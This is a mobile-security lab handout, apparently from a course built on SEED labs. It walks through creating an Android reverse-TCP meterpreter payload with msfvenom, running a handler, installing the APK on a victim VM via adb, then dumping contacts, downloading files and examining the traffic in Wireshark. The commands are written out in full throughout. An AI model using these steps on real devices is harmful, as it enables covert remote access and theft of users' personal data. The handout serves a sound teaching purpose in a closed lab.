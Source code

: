 # Lab 7: Developing Mobile Malware

## Set-up

Set up two VMs, keep the attacker and victim machine within the same subnet.

`````{tabbed} Attacker: Ubuntu

IP address: `10.0.2.15`


Install [Metasploit](https://www.metasploit.com/) Module


```sh
$ sudo apt install python3-dev
$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
$ chmod 755 msfinstall
$ ./msfinstall
```

Install `adb` to send `.apk` files to the android VM

```
$ sudo apt install adb
```

Install [WireShark](https://www.wireshark.org/) to capture the traffic between two machines:

```
$ sudo add-apt-repository ppa:wireshark-dev/stable
$ sudo apt-get install wireshark
```

`````

`````{tabbed} Victim: Android
IP address: `10.0.2.11`

Run an Android virtual machine as [what seed project requests to do](https://seedsecuritylabs.org/Labs_16.04/Mobile/). After the VM installed, add some entries in `Contacts` app (e.g. Name: KMR, Phone: 114-514-1919)

````{note}
The IP address of the Android VM can be obtained by running `Terminal Emulator` app and typing

```
$ ifconfig
```

````
`````

````{note}
The two IP addresses listed above are just examples, you need to replace the values with the actual IP addresses on your virtual machines by

```
$ ifconfig
```

in the following tasks.

Please make sure that the two VMs are configured with the same subnet.
````


## Explore Metasploits 

```
$ msfconsole
msf >  search type:payload platform:android
```

Create a reversed TCP [^ex]

```
msf > msfvenom -p android/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f raw -o reverse_tcp.apk
```

Start a handler:

```
msf > use exploit/multi/handler
msf > set payload android/meterpreter/reverse_tcp
msf > set lhost 10.0.2.15
msf > set lport 4444
msf > exploit
```

Send the `reverse_tcp.apk` to the vicitm machine and install it:

```
$ adb connect 10.0.2.11
$ adb install reverse_tcp.apk
```

From the victim Android, we start the installed app `MainActivity`

![](victim.png)

```{warning}
No obvious response after double-clicking, but actually it is running in the backgroud.
```

Then we can see the session information from the attacker VM:

![Connected successfully](session.png)

Press <kbd>Enter</kbd> and go into the `meterpreter` console.

### Basic Commands

Check if the device is rooted

```
meterpreter > check_root
```

See the current directory where you are

```
meterpreter > pwd
/data/user/0/com.metasploit.stage/files
```

Dump all contacts

```
meterpreter > dump_contacts
[*] Fetching 3 contacts into list
[*] Contacts list saved to: contacts_dump_20210527000741.txt
```

Let's check it:

![Dump all contacts information from the victim Android](contacts.png)

````{seealso}
More commands can be found by:

```
meterpreter > help
```

Or see the [Metasploit Cheat Sheet](https://pentestmag.com/metasploit-cheat-sheet/)
````

[^ex]: https://www.hackers-arise.com/post/2018/07/06/metasploit-basics-part-13-exploiting-android-mobile-devices



## Task: steal sensitive files

For example, get the DNS configurations on the victim mobile:

```
meterpreter > cat /etc/hosts
127.0.0.1       localhost
::1             ip6-localhost
```

Download it to the attacker machine

```
meterpreter > download /etc/hosts
```


## Monitor Traffic

Launch `Wireshark` with root privilege:

```
$ sudo wireshark
```

When starting an `exploit` in [Explore Metasploits](#explore-metasploits), `Wireshark` captures the TCP traffic between the attacker and the victim. For example, here are the packets that the reversed TCP connection establishes (Note that `10.0.2.15:4444` is the malicious host):

![](./establish.png)

We dump the captured traffic into an `.pcap` file, which can be opened with `wireshark`. for example:

{download}`sample.pcap`

which records all network traffic during the attack, try to distinguish which traffics are related to the attack process.